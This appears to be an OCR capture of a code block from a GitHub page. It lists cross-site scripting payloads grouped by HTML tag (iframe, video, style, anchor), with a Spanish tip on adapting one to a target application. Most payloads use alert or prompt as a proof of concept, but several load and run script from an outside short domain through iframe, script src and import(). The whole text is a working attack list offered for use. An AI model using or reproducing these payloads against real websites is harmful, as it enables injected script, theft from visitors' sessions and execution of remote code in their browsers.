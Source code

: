 ```
cgonzalo"><iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

cgonzalo"><iframe/srcdoc="<script/src=//Ǌ.₨></script>">

cgonzalo'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

--- <video> ---

cgonzalo"><video src=_ onloadstart="alert(1)">

cgonzalo"><video/poster/onerror=alert(1)>

cgonzalo"><video><source onerror="javascript:alert(1)">

cgonzalo"><video controls onloadstart="alert(8)"><source src=x></video>

cgonzalo"><video oncanplaythrough=alert(1)><source src="validvideo.mp4" type="video/mp4"></video>

cgonzalo"><video width="320" height="240" controls><source src=”https://www.mini.es/” type=video/ogg><svg/onload=confirm(8)><source src="/build/videos/arcnet.io(7-sec).mp4" type=video/mp4></video>

cgonzalo"><video controls onloadstart=prompt(8)> <source media="" type="" src="https://miclaro.claro.com.ar/test.mp4" type="video/mp4"> </video>

cgonzalo"><video width="320" height="240" controls oncanplay=alert(8)><source src=”https://applicationvulnerable.com/><source src="/path/in/application/vulnerable.mp4" type=video/mp4></video> (Cuando se consigue un vídeo en la misma aplicación, intentar este payload modificando el atributo "src"

--- <style> ---

cgonzalo"><style>@keyframes x{}</style><xss style="animation-name:x" onanimationend="alert(1)"></xss>

cgonzalo"><style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert(1)"></xss>

cgonzalo"><style>@keyframes x{}</style><xss style="animation-name:x" onanimationstart="alert(1)"></xss>

cgonzalo"><style/onload=write(8)>

cgonzalo"><style/onload=import(/\\Ǌ.₨/)>

--- <a> ---

cgonzalo"><a/href="javascript:alert(1)">

cgonzalo"><a\x09href="javascript:alert(8)">

cgonzalo"><a href\x20="javascript:alert(1)">

cgonzalo"><a href="&Tab;javascript:alert(1)">

cgonzalo"><a href="&#x001;javascript:alert(1)">

cgonzalo"><a href="javas&Tab;cript:alert(1)">

cgonzalo"><a href="javascript:~alert(1)">

cgonzalo"><a href="javascript://%0d%0aalert(1)">

cgonzalo"><a href="javascript:\x0calert(1)">

```